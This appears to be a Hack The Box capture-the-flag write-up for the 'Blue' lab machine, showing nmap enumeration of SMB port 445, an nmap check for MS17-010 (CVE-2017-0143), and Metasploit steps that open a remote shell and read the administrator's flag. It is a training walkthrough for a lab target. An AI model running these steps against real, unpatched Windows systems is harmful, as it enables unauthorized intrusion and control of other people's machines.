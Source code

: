 #+title: Blue
#+author: Alex Crom
#+options: H: 2

* Synopsis
Take control over the windows computer and find user- en root:flags:.
Therefore find exploit ms17-010 and run it.

** :scroll: TL:DR
Get *Privilege Escalation* on a *windows 7 Porfessional 7601 Service Pack 1 computer*.

* :rocket: Getting started
We spawn the machine by clicking the button 

[[../img/blue_ip.png]]

and add the given ~ip~ to our ~/etc/hosts~ file:
#+begin_src bash
echo "10.129.231.168 blue.htb" | sudo tee -a /etc/hosts

#+end_src

* Enumeration
We start as always with a ~nmap~ scan:
#+begin_src bash
nmap -sV -sC -oA blue blue.htb

#+end_src
wich result in a interesting open port:

[[../img/blue_port_445.png]]


If we scan the port on vulernabilities:
#+begin_src bash
nmap --script smb-vuln-ms17-010 -p445 blue.htb

#+end_src

#+caption: vulnerability CVE-2017-0143
[[../img/blue_nmap_ms17-010.png]]

it revails a vulnerability called ms17-010 in Microsoft SMBv1 accorring to [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143][CVE-2017-0143]].

* Expliotation
With ~msfconsole~ we can search for an exploit:

1. type ~msfconsole~ to start metasploit;
2. ~search ms17-010~;
3. ~use 0~;
4. show options gives the options for configuration;
5. ~set RHOSTS Blue.htb~
6. ~set LHOSTS 10.10....~
7. ~expliot~
8. ~shell~
9. ~whoami~
10. ~cd \Users\Administrator\Desktop~
11. type ~root.txt~

* :mortar_board: Lessons learned :mortar_board:
1. How to use ~msfconsole~;
2. How to explicit scan with ~nmap~ for a vulnerability scan;
3. Windows does not support linux syntax :nerd:
